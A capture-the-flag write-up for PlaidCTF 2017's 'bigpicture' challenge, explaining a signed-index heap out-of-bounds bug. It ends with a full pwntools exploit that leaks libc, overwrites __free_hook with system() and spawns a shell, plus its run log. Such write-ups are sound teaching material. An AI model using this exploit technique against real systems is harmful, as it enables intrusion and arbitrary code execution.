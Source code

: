 ```yaml
---
layout: post
comments: true
title: "PlaidCTF 2017 \"bigpicture\" write-up (pwn 200)"
description: "Write-up for binary exploitation challenge \"bigpicture\" @ PlaidCTF 2017"
---
```


Task description:

> Size matters!

We're presented with a x86_64 ELF binary, libc it's using and the source code.

```
$ nc bigpicture.chal.pwning.xxx 420 
Let's draw a picture!
How big?  1 x 1
> 0 , 0 , A 
> q
A
Bye!
```
<!-- more -->

The source:

```c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <unistd.h>

int width, height;
char *buf;

void plot(int x, int y, char c);
void draw();

int main() {
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	setbuf(stderr, NULL);
	alarm(100);
	puts("Let's draw a picture!");
	fputs("How big? ", stdout);
	scanf(" %d x %d", &width, &height);
	buf = calloc(width, height);
	if(buf == NULL) {
		perror("malloc");
		return -1;
	}
	char c;
	while(1) {
		fputs("> ", stdout);
		int x, y;
		if(scanf(" %d , %d , %c", &x, &y, &c) != 3)
			break;
		plot(x, y, c);
	}
	if(scanf(" quit%c", &c) != 1)
		draw();
	puts("Bye!");
	free(buf);
	return 0;
}

char *get(size_t x, size_t y) {
	return &buf[x * height + y];
}

void plot(int x, int y, char c) {
	if(x >= width || y >= height) {
		puts("out of bounds!");
		return;
	}
	char *ptr = get(x, y);
	if(*ptr != 0)
		printf("overwriting %c!\n", *ptr);
	else
		*ptr = c;
}

void draw() {
	int x, y;
	char c;
	for(y = height-1; y >= 0; y--) {
		for(x = 0; x < width; x++) {
			c = *get(x, y);
			if(c == 0)
				c = ' ';
			if(putchar(c) != c)
				return;
		}
		putchar('\n');
	}
}

```



This is a plot drawing binary. You enter the matrix size and fill it up with characters. At the end the resulting matrix is printed back to you. The program allocates `width * height` bytes on the heap to store plot values.

The actual vulnerability is in the `plot` function:
```c
void plot(int x, int y, char c) {
	if(x >= width || y >= height) {
		puts("out of bounds!");
		return;
	}
	char *ptr = get(x, y);
	if(*ptr != 0)
		printf("overwriting %c!\n", *ptr);
	else
		*ptr = c;
}
```

Note, that both width and height variables are signed, but only upper bounds are checked. Specifying negative signed values allows us to read arbitrary non-zero values in the memory before heap or write arbirary values in case the target memory is zero. Unfortunately the binary's relocation section is write-protected and ASLR was on. There was no obvious way to affect the control flow of the program given the only memory before the heap was the .text and .data sections of the binary. This is the case when the amount of data allocated on the heap is less then `M_MMAP_THRESHOLD` value on the system. If the value is less the this constant then `brk()` system call is used to increase program break and heap is in fact allocated in the .data section of the binary. Quote from man:

> Note: Nowadays, glibc uses a dynamic mmap threshold by  default.
> The  initial value of the threshold is 128*1024

Luckily for us we can force `calloc()` to use `mmap()` to map new memory segment using the value equal to or greater than `128*1024`. This way we observe the heap being just below libc.so at a fixed offset:

```
  Start Addr           End Addr       Size     Offset   objfile
0x55c718337000     0x55c718338000     0x1000        0x0 bigpicture
0x55c718538000     0x55c718539000     0x1000     0x1000 bigpicture
0x55c718539000     0x55c71853a000     0x1000     0x2000 bigpicture
0x7f1d3d9b8000     0x7f1d3db76000   0x1be000        0x0 libc-2.19.so
0x7f1d3db76000     0x7f1d3dd75000   0x1ff000   0x1be000 libc-2.19.so
0x7f1d3dd75000     0x7f1d3dd79000     0x4000   0x1bd000 libc-2.19.so
0x7f1d3dd79000     0x7f1d3dd7b000     0x2000   0x1c1000 libc-2.19.so
0x7f1d3dd7b000     0x7f1d3dd80000     0x5000        0x0 
0x7f1d3dd80000     0x7f1d3dda3000    0x23000        0x0 ld-2.19.so
0x7f1d3df72000     0x7f1d3df96000    0x24000        0x0 <---- HEAP
0x7f1d3dfa0000     0x7f1d3dfa2000     0x2000        0x0 
0x7f1d3dfa2000     0x7f1d3dfa3000     0x1000    0x22000 ld-2.19.so
0x7f1d3dfa3000     0x7f1d3dfa4000     0x1000    0x23000 ld-2.19.so
0x7f1d3dfa4000     0x7f1d3dfa5000     0x1000        0x0 
0x7fff67f57000     0x7fff67f78000    0x21000        0x0 [stack]
0x7fff67fa3000     0x7fff67fa5000     0x2000        0x0 [vvar]
0x7fff67fa5000     0x7fff67fa7000     0x2000        0x0 [vdso]
```

We want to overwrite the `__free_hook` pointer at libc's data section with address of `system()`. It is used by the `free` function:

![__free_hook]({{ site.url }}/assets/plaidctf2017/free_hook1.png)

This hook is placed in the `.bss` section of libc at a fixed offset:

```
.bss:00000000003C57A8    public __free_hook ; weak
.bss:00000000003C57A8    ; __int64 (__fastcall *_free_hook)(_QWORD, _QWORD)
```

To figure out the absolute address of `system()` we need to leak the address of some location in libc. Again, we can use `.got` section of libc which contains pointer to `free()` funcion at a fixed address:

```
.got:00000000003C2F98    free_ptr    dq offset free    ; DATA XREF: j_free_r
```

Last thing we have to do is write `/bin/sh` string to the memory allocated on the heap as its reference will be passed to the `free` function, which is effectively replaced with `system()`.

## Exploit code

```python
from pwn import *
from time import sleep
from struct import unpack, pack
import sys
import re

#libc 2.23

offset_to_start_libc = -0x5c2010 
offset_system = 0x045390
offset_free = 0x083940
offset_ptr_free = 0x03C2F98
offset_free_hook = 0x3C57A8

pc = remote('bigpicture.chal.pwning.xxx', 420)
pc.sendline(' 131072 x 1\n')  # 128 * 1024
pc.recv()

pointer_buf = ''

for i in range(-8, -2):
	off = offset_to_start_libc + offset_ptr_free + 8
	pc.sendline(' {} , {} , A\n'.format(off, i))
	sleep(0.5)
	res = pc.recv()
	byte =  re.search("overwriting (.{1})!", res).group(1)
	pointer_buf += byte

offset_abs_free = unpack("<Q", pointer_buf + '\x00\x00')[0]

print 'Free address:', hex(offset_abs_free) 

offset_abs_system = offset_abs_free - (offset_free - offset_system)

print 'System address:', hex(offset_abs_system)
print 'Overwriting __free_hook ptr with system address'

for k, i in enumerate(range(-8,-2)):
	byte_to_send = pack("<Q", offset_abs_system)[k]
	off = offset_to_start_libc + offset_free_hook + 8
	pc.sendline(' {} , {} , {}\n'.format(off , i, byte_to_send))	
	sleep(0.5)

print 'Writing "/bin/sh" to heap'

for k, i in enumerate(range(-8, 0)):
	byte_to_send = '/bin/sh\x00'[k]
	pc.sendline(' {} , {} , {}\n'.format(8 , i, byte_to_send))	
	sleep(0.5)

pc.sendline(' q')
pc.interactive()
```

```
# python sploit.py
[+] Opening connection to bigpicture.chal.pwning.xxx on port 420: Done
Free address: 0x7f973313d940
System address: 0x7f97330ff390
Overwriting __free_hook ptr with system address
Writing "/bin/sh" to heap
[*] Switching to interactive mode
$ cat /home/bigpicture/flag
PCTF{draw_me_like_one_of_your_pwn200s}
```